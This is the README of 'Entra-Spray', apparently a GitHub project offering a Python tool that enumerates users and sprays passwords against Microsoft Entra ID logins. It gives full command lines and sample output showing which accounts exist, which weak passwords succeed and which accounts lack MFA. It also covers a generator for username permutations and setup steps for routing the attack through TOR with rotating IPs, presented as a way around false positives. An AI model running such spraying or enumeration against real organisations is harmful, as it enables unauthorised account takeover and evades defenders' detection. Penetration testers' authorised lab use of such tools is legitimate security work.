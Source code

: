 # Entra-Spray
Python tool that allows you to perform Password Spray and User Enumeration tests against Entra ID, with Microsoft login service (login.microsoftonline.com).

The tool recreates the real Microsoft login flow to check:
1. Whether a user exists in Entra ID
2. Whether the password is correct
3. Whether there is a reference to a Federated server

## Main capabilities:
-  Argument (-Check) for checking if user identity exsit in Tenant (after muliple requests it might be False Positive)
-  Argument (-ProxyTor) for route all traffic vit TOR (renew ip after every 4 min..) - This feature comes to solve the problem of False Positive
   Settings adjustment required before using this argument
- Argument (-firstname) and (-lastname) and (-tenantname) for make combination from employee's name until finding the vaild user

### Install:

```bash
pip install httpx
pip install httpx[http2]
pip install httpx[socks]
pip install stem
```

```python
Entra-Spray.py [-h] -user username@doamin.com | path-to-usernames-file -pass password | path-to-passwords-file  [-check] [-ProxyTor] # authentication to Microsoft
Entra-Spray.py [-h] -user username@doamin.com | path-to-usernames-file  [-check] [-ProxyTor] # Just for user validation
Entra-Spray.py [-h] -firstname Shaked -lastname Wiessman -tenantname Shak.com [-ProxyTor] # for Finding the vaild combination
```

Using UserName-Combain.py:
```python
UserName-Combain.py -input names.txt -output username.txt -tenantname @shak.com -style firstl | first | last | firstlast | first.last | last.first | lastfirst | firstL | lastF | firstL2 | firstL3 | lastF2 | lastF3 | fl | lf | l.first | f.last | first.l | last.f | all 
```

### Usage:

the tenant and the upns is a part of a LAB enviroment in Entra ID :]

#### Chekcing id User Exisy by First Name and Last Name:

```python
(Entra-Spray) root@Machine# python3 Entra-Spray.py -firstname shaked -lastname wiessman -tenantname entraspraytenant.onmicrosoft.com

[✗] Username: s.wiessman@menorrait.onmicrosoft.com is not exists
[✗] Username: shaked@menorrait.onmicrosoft.com is not exists
[✗] Username: shaked.w@menorrait.onmicrosoft.com is not exists
[✗] Username: shaked.wiessman@menorrait.onmicrosoft.com is not exists
[✗] Username: shakedw@menorrait.onmicrosoft.com is not exists
[✗] Username: shakedwi@menorrait.onmicrosoft.com is not exists
[✗] Username: shakedwie@menorrait.onmicrosoft.com is not exists
[✓] Username: shakedwiessman@menorrait.onmicrosoft.com is exists
```

#### Checking If User Exist:
```python
(Entra-Spray) root@Machine# python3 Entra-Spray.py -user list-of-usernames.txt -check

[✓] Username: shoshi@entraspraytenant.onmicrosoft.com is exists
[✓] Username: david@entraspraytenant.onmicrosoft.comis exists
[✗] Username: dan@entraspraytenant.onmicrosoft.com not exists
[✓] Username: normuser@entraspraytenant.onmicrosoft.com is exists
[✓] Username: shakedwiessman@entraspraytenant.onmicrosoft.com is exists


----------------------------
 Valid users and successful authentications written to valid-users.txt
```

#### Checking If User Exist with TOR routing (-proxytor flag):
```python
(Entra-Spray) root@Machine# python3 Entra-Spray.py -user list-of-usernames.txt -check -proxytor

[i] Current TOR IP: {"IsTor":true,"IP":"109.228.160.190"}    <--
[✓] Username: shoshi@entraspraytenant.onmicrosoft.com is exists
[✓] Username: david@entraspraytenant.onmicrosoft.com is exists
[✗] Username: dan@mentraspraytenant.onmicrosoft.com not exists
[✓] Username: normuser@entraspraytenant.onmicrosoft.com is exists
[✓] Username: shakedwiessman@entraspraytenant.onmicrosoft.com is exists

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

#### Preforming Password Spray Attack:
```python
(Entra-Spray) root@Machine# python3 Entra-Spray.py -user list-of-usernames.txt -password 'Aa123456'

[-] Failed to authenticate with shoshi@entraspraytenant.onmicrosoft.com with password Aa123456, didn't check if user exists
[✓] User david@entraspraytenant.onmicrosoft.com is exist, and seccessfully logged in with password: Aa123456, MFA required but not configured   <--
[-] Failed to authenticate with normuser@entraspraytenant.onmicrosoft.com with password Aa123456, didn't check if user exists
[-] Failed to authenticate with shakedwiessman@entraspraytenant.onmicrosoft.com with password Aa123456, didn't check if user exists

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

#### Preforming Password Spray Attack with '-check' flag:
```python
(Entra-Spray) root@Machine# python3 Entra-Spray.py -user list-of-usernames.txt -password 'Aa123456' -check

[!] NOT-success: shoshi@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456
[✓] User david@entraspraytenant.onmicrosoft.com is exist, and seccessfully logged in with password: Aa123456, MFA required but not configured   <--
[!] NOT-success: normuser@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456
[!] NOT-success: shakedwiessman@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

#### Preforming Password Spray Attack with '-check' flag and with TOR routing:
The script will check if:
- The user is required to have MFA but has not yet set it up
- The user is required to have MFA
- The user is required to change their password
  
```python
(Entra-Spray) root@Machine# python3 Entra-Spray.py -user list-of-usernames.txt -password 'Aa123456' -check -proxytor

[i] Current TOR IP: {"IsTor":true,"IP":"109.228.160.190"}   <--
[!] NOT-success: shoshi@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456
[✓] User david@entraspraytenant.onmicrosoft.com is exist, and seccessfully logged in with password: Aa123456, MFA required but not configured   <--
[!] NOT-success: normuser@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456
[!] NOT-success: shakedwiessman@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

```python
(Entra-Spray) root@Machine# python3 Entra-Spray.py -user list-of-usernames.txt -password 'Bb123456' -check -proxytor

[i] Current TOR IP: {"IsTor":true,"IP":"110.22.66.190"}   <--
[!] NOT-success: shoshi@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Bb123456
[!] NOT-success: david@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Bb123456
[!] NOT-success: normuser@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Bb123456
[✓] User shakedwiessman@entraspraytenant.onmicrosoft.com is exist, and seccessfully logged in with password: Bb123456, MFA required   <--

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

```python
(Entra-Spray) root@Machine# python3 Entra-Spray.py -user list-of-usernames.txt -password 'Cc123456' -check -proxytor

[i] Current TOR IP: {"IsTor":true,"IP":"109.172.188.113"}   <--
[✓] User shoshi@entraspraytenant.onmicrosoft.com is exist, and Password needs updating: Cc123456   <--
[!] NOT-success: david@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Cc123456
[!] NOT-success: normuser@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Cc123456
[!] NOT-success: shakedwiessman@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Cc123456

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

### Usage UserName-Combain.py:
```bash
(Entra-Spray) root@Machine# cat names.txt

shaked wiessman
israel israeli
ran danker
dani kushmaro
idan amedi
```
```python3
(Entra-Spray) root@Machine# python3 UserName-Combain.py -input names.txt -output usernames.txt -tenant '@entraspraytenant.onmicrosoft.com' -style firstlast

shakedwiessman@entraspraytenant.onmicrosoft.com
israelisraeli@entraspraytenant.onmicrosoft.com
randanker@entraspraytenant.onmicrosoft.com
danikushmaro@entraspraytenant.onmicrosoft.com
idanamedi@entraspraytenant.onmicrosoft.com
```

## Usage with TOR:

### Install:

```bash
sudo apt update
sudo apt install torsocks -y
sudo apt install libtorsocks0 -y
```


1) Start TOR:

  ```bash
  sudo systemctl start tor@default
  ```

2) open /etc/tor/torrc file and add:

  ```bash
  ControlPort 9051
  CookieAuthentication 1
  ```

3) Create symlink:

  ```bash
  sudo ln -s /usr/lib/x86_64-linux-gnu/torsocks/libtorsocks.so /usr/lib/x86_64-linux-gnu/libtorsocks.so
  ```

4) Restart TOR:

  ```bash
  sudo systemctl restart tor@default
  ```

5) Check if TOR is working:
  ```bash
  netstat -tulpen | grep 9050
  torsocks curl https://api.ipify.org
  torsocks curl https://check.torproject.org | grep -i "Congratulations"
  ```

